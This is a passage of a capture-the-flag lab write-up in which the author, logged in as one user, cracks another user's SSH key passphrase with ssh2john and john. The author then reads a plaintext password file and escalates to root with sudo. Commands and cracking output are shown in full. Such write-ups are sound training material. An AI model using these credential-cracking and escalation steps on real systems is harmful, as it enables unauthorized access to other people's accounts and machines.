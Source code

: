 Success! I got the password for `jan`. I logged in via SSH and started exploring the server. After several failed kernel exploit attempt, I decided to explore `kay`’s home directory. I tried loggin in as `kay` but couldn’t guess the password. I discovered that I can access the `.ssh` directory and all of its content. SSH login with private also failed, because it required a password. I used `john` to crack the ssh password:

```
root@kali:~/Downloads# ssh2john key.txt > crackme
root@kali:~/Downloads# john crackme
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:38  3/3 0g/s 486702p/s 486702c/s 486702C/s tboits
0g 0:00:01:33  3/3 0g/s 517783p/s 517783c/s 517783C/s bhab146
0g 0:00:04:24  3/3 0g/s 532364p/s 532364c/s 532364C/s k11kv3
0g 0:00:07:19  3/3 0g/s 534969p/s 534969c/s 534969C/s ffieb17
0g 0:00:25:41  3/3 0g/s 542544p/s 542544c/s 542544C/s hsfemg
0g 0:00:34:47  3/3 0g/s 543421p/s 543421c/s 543421C/s kj1ja7
0g 0:00:52:24  3/3 0g/s 543436p/s 543436c/s 543436C/s lbi2alu
beeswax          (key.txt)
1g 0:00:59:31 DONE 3/3 0.000279g/s 543394p/s 543394c/s 543394C/s beeswax
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@kali:~/Downloads# john crackme --show
key.txt:beeswax1 password hash cracked, 0 left
```

Another user was in the bag, only the root user missing. But, since there was password in `kay`’s home folder, I thought it might help me get root.

```
root@kali:~/Downloads# ssh -i key.txt kay@192.168.43.170
Enter passphrase for key 'key.txt': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)
* Management:     https://landscape.canonical.com
* Support:        https://ubuntu.com/advantage128 packages can be updated.
66 updates are security updates.New release '18.04.1 LTS' available.
Run 'do-release-upgrade' to upgrade to it.kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
kay@basic2:~$
```

I was right, kay was able switch to root user with this password.

```
kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
kay@basic2:~$ sudo -s
[sudo] password for kay:
root@basic2:~#
```

